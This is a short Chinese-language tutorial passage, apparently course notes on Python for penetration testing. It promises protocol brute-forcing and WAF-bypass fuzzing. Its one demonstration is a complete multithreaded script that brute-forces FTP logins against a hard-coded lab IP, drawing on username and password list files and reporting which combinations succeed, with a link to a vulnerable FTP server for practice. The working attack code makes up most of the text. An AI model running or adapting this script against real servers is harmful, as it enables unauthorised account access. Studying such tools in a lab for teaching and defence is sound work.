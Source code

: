   掌握利用强大的模块实现各种协议连接操作(爆破或利用等)，配合 Fuzz 吊打 WAF 等



# 演示案例：

### Python 开发-简单多线程技术实现脚本

#### **案例 1-Python 开发-简单多线程技术实现脚本 **

**queue，threading 模块使用**

[quickeasyftpserver.zip](https://lcba.lanzouy.com/iAMePxl378h)

```python
import ftplib
import queue
import threading


def ftp_check():
    while not q.empty():
        dic = q.get()
        dic = dic.split('|')
        username = dic[0]
        password = dic[1]
        ftp = ftplib.FTP()
        try:
            ftp.connect('10.13.135.87', 21)
            ftp.login(username, password)
            ftp.retrlines('list')
            print(username + '|' + password + '--------' + 'Logged in')
            ftp.close()
        except ftplib.all_errors as e:
            ftp.close()
            print(username + '|' + password + '--------' + 'failed')
            pass


if __name__ == '__main__':
    thread = 10
    q = queue.Queue()
    for username in open('user.txt'):
        for password in open('password.txt'):
            username = username.replace('\n', '')
            password = password.replace('\n', '')
            dlist = username + '|' + password
            q.put(dlist)

    for x in range(thread):
        t = threading.Thread(target=ftp_check)
        t.start()
```
